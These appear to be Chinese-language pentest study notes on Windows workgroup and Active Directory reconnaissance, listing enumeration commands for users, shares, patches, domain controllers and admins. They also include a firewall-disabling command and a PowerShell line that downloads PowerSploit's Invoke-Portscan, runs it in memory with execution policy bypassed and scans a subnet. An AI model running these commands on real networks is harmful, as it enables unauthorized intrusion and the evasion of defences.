

#### 虚拟机三种网络

* 桥接：虚拟机在局域网中是一个独立的机器
* nat ：物理机相当于虚拟机的网关，虚拟机借助于物理机上网
* host-only:没法上网，只能物理机与虚拟机共享

#### 信息收集
##### 工作组信息收集
*  查询网络配置
    1. ifconfig /all
*  查询用户列表
    1. net user
    2. net localgroup administrators
    3. query user || qwinsta
*  查询进程列表
    1. tasklist /v
    2. wmic process list brief
*  查询操作系统
    1. systeminfo | findstr \B \C "Os Name"
*  安装软件版本信息,以及路径
    1. wmic product get name,version
    2. powershell "Get-WmiObject -class Win32_Product |Select-Object -Property name,version"   
*  查询端口列表
    1. netstat -ano
*  查询补丁列表
    1. systeminfo
    2. wmic qfe get Caption,Description,HotFixID,InstalledOn
*  查询本机共享
    1. net share
    2. net share \\hostname
    3. wmic share get name,path,status
*  查询防火请配置
      1.  netsh firewall show config
       
        关闭防火墙
      2.  netsh advfirewall set allprofiles state off (需管理员)

        防火墙配置看ppt 上,允许程序出入
*  查询并开启远程连接服务

         * 查询远程服务端口
          ```cmd
         REG QUERY   "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V   PortNumber   
        ```
        开3389看ppt 上
*  查看权限 whoami

        本地普通用户(不能查询域内信息)
        本地主机管理员（可以查询域内信息）
        域用户(可以查询域内信息)

        获取用户sid(whoami /all)
        查询用户信息
        net user zzz /domain      
我们可以通过WMIC环境来管理整个系统了。
[wmic渗透中的用法](https://blog.csdn.net/discover2210212455/article/details/82711930)

*  	当前帐户权限
  > whoami /priv
*  显示dns 缓存
    1. ipconfig /displaydns
*  刷新dns
    1. ipconfig /flushdns
*  列车安装的驱动
    1.  DRIVERQUERY
*  列出启动的服务
  > net start
*  在目录中搜索包含指定字符的项目
  > dir /s foo
*  强制结束进程
  > tasklill /im aa.exe /f
*  列出所有服务
  > sc QUERY
*  找到指定服务的路径
  > sc qc service
*  列出权限
  > 

##### 域环境收集
*  查询是否有域环境

        ifconfig /all(nslookup 查询域控ip)
        systeminfo(查询系统详细信息)
        net config wokstation
        net time /domain

            1. 存在域，当前用户是域用户
            2. 存在域，当前用户不是是域用户(拒绝访问)
            3. 不存域(找不到)

*  域内存活主机的探测
    *   利用(网络邻居)netbios探测内网  工具 nbtscan
                使用方法：nbt.exe  ip/24(防止防火墙)
  
  * 通过ping命令探测
    * linux
        >for i in `seq 1 255`; do ping -c 2 192.168.100."$i"|grep  "64 bytes" ;done
    * windows
        >for /L %I in (1,1,254) do @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
  * 利用arp探测内网
    * arp-scan
        arp -t ip
    * [ps脚本](https://github.com/samratashok/nishang)
        nishang的ps脚本(invoke-arpScan)
          
          
          1. 远程下载运行
          2. 本地运行
          3. 无条件运行(内存中运行，比较隐蔽)

    *  scanline 探测开启那些端口
*  域内端口扫描
    * 端口banner
    * 端口上运行的服务
    * 常见应用默认端口
    * telnet命令
    * ps脚本(PowerSploit 中的 Invoke-Portscan.ps1 脚本)(杀软不报毒)

    > powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.0.1/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"

* 域内基本信息收集(本地用户没权限，域用户有权限，本机system权限可以查询)
    * net view /domain 查询域
    * net view /domain:xxx 查询域中的电脑
    * net view /domain:workgroup
    * net group /domain 查询域组
    * net group "domain computers" /domain 查询所有域成员
    * net accounts /domain 获取密码策略
    * nItest /domain_trusts 或许信任信息
*  查找域控
    > nltest /dclist:lmcx

    > 扫描开启389的主机

    > net time /domain

    > net group "domain controllers" /domain

    > nslookup -type=srv_ladp._tcp

    > systeminfo (查看登录域)
* 域用户和管理员的获取
    > net user /domain

    >dsquery user(AD命令，域控制器上用)

    >wmic useraccount get /all(获取详细信息)
  
    >net group "domain admins" /domain

    >net group "Enterprise Admins" /domain